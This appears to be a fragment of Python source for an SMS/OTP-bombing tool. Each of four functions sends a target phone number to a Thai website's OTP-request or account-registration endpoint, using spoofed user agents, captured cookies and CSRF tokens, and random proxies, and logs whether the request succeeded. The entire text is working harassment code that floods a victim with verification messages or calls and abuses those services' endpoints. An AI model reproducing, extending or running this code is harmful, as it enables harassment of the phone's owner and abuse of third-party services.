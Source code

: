 def api21(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://ep789bet.net/auth/send_otp",headers={"content-type": "application/x-www-form-urlencoded","user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","user-agent": "ep789bet=g9b6cbooof7sq9tmmdtside6s1topdus;__cf_bm=N34Ldd3PZGzyar210NA3MW6tlk6DVyL7TRWX9siAsXk-1657612222-0-AchySBWuKW05LLldbYqjOGsQ9fG8ijO20enZMUqVHANUif9L3qqazpIcC5nC+tUMIfCoSH575g2k16EyMHk43KcE5tZmJTd+lHogz8Rpd3lKbU3eUD1RsrUmgeJwbddVBQ=="},data=f"phone={phone}&otp=&password=&bank=&bank_number=&full_name=&ref=",proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api22(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://www.theconcert.com/rest/request-otp",headers={"content-type": "application/json;charset=UTF-8","accept": "application/json, text/plain, */*","user-agent": generate_user_agent(),"x-requested-with": "XMLHttpRequest","x-csrf-token": "d6VfYNo3-RJK5IK0axoCE7KLIAPbW9K0IbL8","x-xsrf-token": "b2b9a4f732d05668c61e64f836417f67/iS0TaMFdXciRQYns4jNXpeVYy3DlvGY6ML+q8oquXvseUvcnIelmUwwR9/wJHKHjGKfN0+WS9orN1zdtt4J3I72qJ3x4Va07eBC0isPMu4ktiZw5DvLcobqJ9l39rFP"},json={"mobile":phone,"country_code":"TH","lang":"th","channel":"call","digit":4},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api23(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://www.jdbaa.com/api/otp-not-captcha",headers={"content-type": "application/json; charset=UTF-8","user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","cookie": "_ga=GA1.2.139524076.1653888756;_hjSessionUser_1879787=eyJpZCI6IjczNjVhMTYxLTFkNzktNWVjYS04N2M4LTc3ZTk3ODUyY2U3ZiIsImNyZWF0ZWQiOjE2NTM4ODg3NTc4ODksImV4aXN0aW5nIjp0cnVlfQ==;_fw_crm_v=b55243cc-06b2-4f25-ca32-2a7634301a95;connect.sid=s%3AiV4V1-65FA5rpJyEObOITUh2fyDcYhen.aclXEUqD4Qe5nlUYVG0mb1zIAC4OuxP4FWCX6%2B8E9WU;io=c7ilAXG_QnIDDz0xAKH5;countdown_lotto_th=345759;_gid=GA1.2.626569110.1657612643;_gat_gtag_UA_139533742_1=1;_hjIncludedInSessionSample=0;_hjSession_1879787=eyJpZCI6ImVjMzQ5NWNiLTIwOGQtNGViYS1hNmY3LTY2ZDVhM2JhMGNmZCIsImNyZWF0ZWQiOjE2NTc2MTI2NDUyMzEsImluU2FtcGxlIjpmYWxzZX0=;_hjAbsoluteSessionInProgress=0;modal_htd=true;_fw_crm_v=b55243cc-06b2-4f25-ca32-2a7634301a95"},json={"phone_number":phone,"user_id":f"ak{phone}"},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api24(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://ocs-prod-api.makroclick.com/next-ocs-member/user/register",json={"username": phone,"password":"6302814184624az","name":"0903281894","provinceCode":"28","districtCode":"393","subdistrictCode":"3494","zipcode":"40260","siebelCustomerTypeId":"710","acceptTermAndCondition":"true","hasSeenConsent":"false","locale":"th_TH"})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	